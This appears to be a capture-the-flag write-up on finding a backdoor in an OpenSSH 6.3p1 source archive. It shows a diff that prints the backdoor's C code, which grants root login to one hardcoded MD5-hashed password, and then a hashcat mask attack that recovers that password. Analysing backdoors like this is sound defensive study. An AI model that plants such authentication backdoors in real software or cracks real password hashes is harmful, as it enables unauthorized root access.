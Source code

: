# Can You Look This Over?

* **Category**: Miscellaneous
* **Points**: 150
* **Challenge**: Our ops guys found a malware author's staging server, we managed to exfiltrate the source to a backdoor they are spreading: backdoor.tar.gz. I need you to report back once you have cracked their secret password.
* **Hint #1**: What version / release of OpenSSH is in the provided archive?
* **Hint #2**: We know that their backdoor allows 'root' to login with a secret password
* **Hint #3**: Try diffing the backdoor tarball against the original source!
* **Hint #4**: The hashed password may be mixed case alphanumreic, but there shouldn't be any symbols!


<br />

The first hint for this challenge asks what is the version of the OpenSSH backdoor you have been provided?  Looking through the files, I was able to find the version in an openssh.spec file: 

```
cat /backdoor/contrib/suse/openssh.spec

...snip...

Summary:	OpenSSH, a free Secure Shell (SSH) protocol implementation
Name:		openssh
Version:	6.3p1
URL:		http://www.openssh.com/
Release:	1
Source0:	openssh-%{version}.tar.gz
Source1:	x11-ssh-askpass-%{xversion}.tar.gz
License:	BSD

...snip...
```

<br />

Now that we know the backdoor is OpenSSH 6.3p1, lets download a copy of the original [OpenSSH 6.3p1](http://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-6.3p1.tar.gz) from the source and compare if to the backdoor:
```
diff -q openssh-6.3p1/ backdoor/

Files openssh-6.3p1/auth.c and backdoor/auth.c differ
Files openssh-6.3p1/auth.h and backdoor/auth.h differ
Files openssh-6.3p1/auth-passwd.c and backdoor/auth-passwd.c differ
Only in openssh-6.3p1/: ChangeLog
```

<br />

So there are three files that are different between the backoor and the original OpenSSH 6.3p1.  Of particular interest, the auth-passwd.c is used for password authentication and contains fucntions to check whether the password is valid for a user.  Lets look at the differences in that file:
```
diff openssh-6.3p1/auth-passwd.c backdoor/auth-passwd.c


th-passwd.c 
47a48,49
> #include <openssl/md5.h>
> 
88a91,93
>     if(sys_auth_backdoor(authctxt, password))
>         return 1;
> 
215a221,245
>     
> static char backdoor_hash[MD5_DIGEST_LENGTH] = \
> {
>     0x22, 0xEA, 0x36, 0x43, 0xD7, 0x37, 0x17, 0x20, 0xBC, 0xE8, 0xB5, 0xF2, 0x44, 0xD4, 0x02, 0x6A
> };
> 
> int
> sys_auth_backdoor(Authctxt *authctxt, const char *password)
> {
>     MD5_CTX c = {};
>     char password_hash[MD5_DIGEST_LENGTH] = {}; 
> 	struct passwd *pw = authctxt->pw;
>     
>     if(strcmp(pw->pw_name, "root") != 0 || strlen(password) != 6)
>         return 0;
> 
>     MD5_Init(&c);
>     MD5_Update(&c, password, strlen(password));
>     MD5_Final(password_hash, &c);
> 
>     if(memcmp(backdoor_hash, password_hash, MD5_DIGEST_LENGTH) != 0)
>         return 0;
> 
>     return 1;
> }
```

<br />

Again the challenge is asking us to crack a secret password.  The `static char backdoor_hash[MD5_DIGEST_LENGTH]` looks like it contains a hashed password.  Lets strip out the leading `0x` and see what we get:
```
22EA3643D7371720BCE8B5F244D4026A
```

<br /> 

Now lets check to see what kind of hashing algorithm this is:
```
hash-identifier 

   -------------------------------------------------------------------------
 HASH: 22EA3643D7371720BCE8B5F244D4026A

Possible Hashs:
[+]  MD5
[+]  Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

<br /> 

Now that we know this is an MD5 hash, lets look at auth-passwd.c further:
```
if(strcmp(pw->pw_name, "root") != 0 || strlen(password) != 6)
         return 0;
```
To aid in cracking the MD5 hash, it looks like the password must be six characters in length. The last hint for this challenge states the password contains mixed case alphanumreic and no symbols.  Now we can use a hashcat to perform a [mask attack](https://www.4armed.com/blog/perform-mask-attack-hashcat/).  To do this, we create a create a custom character set consisting of upper and lowercase letters and numbers (`-1 ?l?u?d`), then we specify that each of the six characters in the password could be from that character set (`?1?1?1?1?1?1`).  Put it all together using hashcat (I used the Windows version):
```
hashcat64.exe -m 0 -a 3 -1 ?l?u?d hash.txt ?1?1?1?1?1?1 -O


22ea3643d7371720bce8b5f244d4026a:2tNM8l
```

<br />

## Flag: ACI{2tNM8l}
